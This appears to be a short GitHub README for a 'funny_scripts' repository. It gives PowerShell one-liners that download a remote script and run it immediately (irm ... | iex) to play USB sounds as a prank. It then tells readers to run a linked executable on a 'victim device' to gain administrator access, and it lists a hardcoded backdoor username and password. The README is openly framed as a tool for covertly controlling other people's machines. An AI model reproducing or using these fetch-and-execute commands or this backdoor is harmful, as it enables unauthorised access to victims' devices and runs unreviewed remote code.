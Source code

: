 # funny_scripts 😈
# 1- TO RUN USB SOUND SCRIPT
        irm https://raw.githubusercontent.com/sasa00elsaedy/funny_scripts/main/usb_a_c.ps1 | iex
#    TO STOP USB SOUND SCRIPT
        irm https://raw.githubusercontent.com/sasa00elsaedy/funny_scripts/main/usb_a_c_stop.ps1 | iex
# 2- DOWNLOAD THIS PROGRAM AND RUN IT IN VICTIM DEVICE THEN YOU CAN ACCESS THE DEVICE AS ADMINSTRATOR 
        https://github.com/sasa00elsaedy/funny_scripts/blob/main/power_o_danger.exe
        username: admin_sasa
        password: 12345679
